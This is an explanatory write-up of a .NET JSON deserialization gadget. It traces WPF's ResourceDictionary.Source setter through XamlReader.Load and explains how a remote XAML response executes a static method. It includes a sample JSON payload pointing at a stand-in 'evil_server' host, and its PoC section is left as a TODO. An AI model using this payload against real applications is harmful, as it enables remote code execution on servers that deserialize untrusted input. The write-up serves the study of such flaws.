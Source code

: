 # Sample JSON payload

```json
{"__type":"System.Windows.Application, PresentationFramework,
Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35",
"Resources":{"__type":"System.Windows.ResourceDictionary,
PresentationFramework, Version=4.0.0.0, Culture=neutral,
PublicKeyToken=31bf3856ad364e35",
"Source":"http://evil_server/EvilSite/Xamlpayload"}}
```

# Source code

```csharp
// System.Windows.ResourceDictionary
public void set_Source(Uri value)
{
    ...
    this._source = value;
    this.Clear();
    Uri resolvedUri = BindUriHelper.GetResolvedUri(this._baseUri,
this._source);
    WebRequest request =
WpfWebRequestHelper.CreateRequest(resolvedUri);
    ...
    Stream s = null;
    try
    {
        s = WpfWebRequestHelper.GetResponseStream(request, out
contentType);
} ...
    XamlReader xamlReader;
    ResourceDictionary resourceDictionary =
MimeObjectFactory.GetObjectAndCloseStream(s, contentType,
resolvedUri, false, false, false, false, out xamlReader) as
ResourceDictionary;
...
```
```csharp
// MS.Internal.AppModel.MimeObjectFactory
internal static object GetObjectAndCloseStream(Stream s, ContentType
contentType, Uri baseUri, bool canUseTopLevelBrowser, bool
sandboxExternalContent, bool allowAsync, bool isJournalNavigation,
out XamlReader asyncObjectConverter)
{
    object result = null;
    asyncObjectConverter = null;
    StreamToObjectFactoryDelegate streamToObjectFactoryDelegate;
 if (contentType != null &&
MimeObjectFactory._objectConverters.TryGetValue(contentType, out
streamToObjectFactoryDelegate))
{
        result = streamToObjectFactoryDelegate(s, baseUri,
canUseTopLevelBrowser, sandboxExternalContent, allowAsync,
isJournalNavigation, out asyncObjectConverter);
...
```

Static constructor of `System.Windows.Application` type initializes `_objectConverters`:

```csharp
// System.Windows.Application
static Application()
{
...
        Application.ApplicationInit();...
// System.Windows.Application
private static void ApplicationInit()
{
...
StreamToObjectFactoryDelegate method = new
StreamToObjectFactoryDelegate(AppModelKnownContentFactory.XamlConver
ter);
MimeObjectFactory.Register(MimeTypeMapper.XamlMime, method);
......
```

Code of `XamlConverter`:

```csharp
// MS.Internal.AppModel.AppModelKnownContentFactory
internal static object XamlConverter(Stream stream, Uri baseUri,
bool canUseTopLevelBrowser, bool sandboxExternalContent, bool
allowAsync, bool isJournalNavigation, out XamlReader
asyncObjectConverter)
{
...
        if (allowAsync)
        {
               XamlReader xamlReader = new XamlReader();
               asyncObjectConverter = xamlReader;
               xamlReader.LoadCompleted += new
AsyncCompletedEventHandler(AppModelKnownContentFactory.OnParserCompl
ete);
               return xamlReader.LoadAsync(stream, parserContext);
        return XamlReader.Load(stream, parserContext);
} }
```

# Attack vector

An attacker sends payload with URL to controlled server, this server responds with Xaml payload and `Content Type = application/xaml+xml` and target server will execute desired static method during parsing of Xaml payload.

# Requirements

* JSON unmarshaller should be able to unmarsha `lSystem.Uri` type.
* JSON unmarshaller should call setters for Types that implement `IDictionary`. Often in this case
unmarshallers just put key-value pairs in the dictionary instead of using the setter to assign its value.

# PoC

TODO